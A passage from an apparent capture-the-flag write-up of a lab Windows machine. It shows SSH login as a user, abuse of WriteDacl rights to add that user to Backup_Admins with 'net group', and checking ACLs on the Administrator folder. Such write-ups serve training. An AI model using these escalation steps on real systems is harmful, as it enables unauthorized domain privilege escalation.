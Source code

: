 
Now I can use that password to ssh in as claire:

    
    
    root@kali# ssh claire@10.10.10.77
    claire@10.10.10.77's password:
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    claire@REEL C:\Users\claire>
    

## Privesc: claire -> Backup_Admins

From the analysis before, I know that claire has WriteDacl rights on the
Backup_Admins group. I can use that to add her to the group. First, see that
the only member of the group is ranj:

    
    
    claire@REEL C:\Users\claire>net group backup_admins
    Group name     Backup_Admins
    Comment
    
    Members
    
    -------------------------------------------------------------------------------
    ranj
    The command completed successfully.
    

Now add claire:

    
    
    claire@REEL C:\Users\claire>net group backup_admins claire /add
    The command completed successfully.
    
    claire@REEL C:\Users\Administrator>net group backup_admins
    Group name     Backup_Admins
    Comment
    
    Members
    
    -------------------------------------------------------------------------------
    claire                   ranj
    The command completed successfully.
    

Despite the fact that it shows claire now in the group, I had to log out and
back in to get it to take effect.

## Privesc: Backup_Admins -> Administrator

Back in as claire and in Backup_Admins, I can check the permissions on the
Administrator folder:

    
    
    claire@REEL C:\Users>icacls Administrator
    Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                  HTB\Backup_Admins:(OI)(CI)(F)
                  HTB\Administrator:(OI)(CI)(F)
                  BUILTIN\Administrators:(OI)(CI)(F)
    